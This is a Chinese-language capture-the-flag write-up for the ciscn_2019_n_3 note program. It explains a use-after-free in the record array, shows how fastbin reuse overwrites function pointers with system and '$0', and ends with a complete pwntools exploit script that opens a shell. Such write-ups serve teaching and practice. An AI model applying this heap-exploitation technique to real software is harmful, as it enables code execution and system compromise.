






## 0x001 程序分析

该程序是个笔记程序，具有新增、删除、打印的功能。

使用IDA分析程序，程序的主要功能都在 **do_new** 函数中

### do_new


该函数先创建一个12字节的堆区存储三部分内容，根据选择输入的类型填充不同的内容，可称为note管理区。

|  Integer  |  Text  |
|  :----:  | :----:  |
|  charr rec_int_print[4]  |  char rec_str_print[4]  |
|  char rec_int_free[4]  |  char rec_str_free[4]  |
|  int value  |  char value[4]  |

在note管理区中，如果选择输入的内容是Integer类型，则输入的内容就存放在note管理区中；如果选择输入的内容是Text类型，则会申请相应大小的堆区，将输入的内容就存放在堆区中，而note管理区中存放的就是堆区的地址。

### do_del



这里只是通过索引调用rec_int_free/rec_str_free去释放内存。

### do_dump



这里只是通过索引调用rec_int_print/rec_str_print去打印信息。

### rec_int_free/rec_str_free




删除笔记都是通过这两个函数实现的，都只是用了 **free** 来释放堆空间。

## 0x002 漏洞分析

由于程序在使用 **rec_int_free/rec_str_free** 释放堆空间时，未将相应的堆区和 **records** 数组清空，因此可通过索引 **records** 数组再次访问堆区，造成UAF漏洞。

## 0x003 漏洞利用

首先创建两个Integer类型的note，此时会创建两个大小为0x10的note管理区。

```
new_note(0, 1, 1)
new_note(1, 1, 1)
```

此时堆区内容如下：



然后再删除这两个note

```
del_note(0)
del_note(1)
```

此时堆区内容如下：



可以看到，删除note之后，会形成两个fastbin，并且原先堆区的内容仍然存在。

那么此时再次申请一个Text类型，大小为0x10的note2时，就会将fastbins中的两个地址都取出来用，一个作为note管理块，一个作为note内容块。

后释放的note1管理区会被先拿出来用，当作note2的管理区，先释放的note0管理区会被用作note2的内容区使用，那么note0的管理区就变为note2的内容区，可被修改。

此时，就可以通过创建Text类型的note2修改note0管理区中的 **rec_int_print** 地址和 **rec_int_free** 地址。

```
new_note(2, 2, b"$0\x00\x00"+p32(elf.plt["system"]), 10)
```

上面是将note0管理区中的 **rec_int_print** 地址改为 **"$0\x00\x00"**，**rec_int_free** 地址改为了 **system** 地址。

为何这么修改呢？因为在调用 **do_del** 函数时，执行的指令是
```
(*(records[v0] + 4))(records[v0]);
```

在调用 **do_dump** 删除note函数时，执行的指令是
```
(*records[v0])(records[v0]);
```

因此，在调用 **do_del** 函数时，**rec_int_free** 位置处就是要调用的函数地址， **rec_int_print** 位置处就是参数。

新建note2之后，此时堆区内容如下：



可以看到已经将note0管理区中的内容修改了，并且在 **record** 中还可以访问到note0。

那么最后调用 **do_del** 函数删除note0，就会跳转执行 **system("$0")**，从而获取系统权限。

最终exp如下：
```
from pwn import *

p = process("./ciscn_2019_n_3")
elf = ELF("ciscn_2019_n_3")

def new_note(idx, type, value, len=0):
    p.sendlineafter("CNote > ", str(1))
    p.sendlineafter("Index > ", str(idx))
    p.sendlineafter("Type > ", str(type))
    
    if type == 1:
        p.sendlineafter("Value > ", str(value))
    elif type == 2:
        p.sendlineafter("Length > ", str(len))
        p.sendlineafter("Value > ", value)

def del_note(idx):
    p.sendlineafter("CNote > ", str(2))
    p.sendlineafter("Index > ", str(idx))

def show_note(idx):
    p.sendlineafter("CNote > ", str(3))
    p.sendlineafter("Index > ", str(idx))

new_note(0, 1, 1)
new_note(1, 1, 1)

del_note(0)
del_note(1)

new_note(2, 2, b"$0\x00\x00"+p32(elf.plt["system"]), 10)
del_note(0)

p.interactive()
```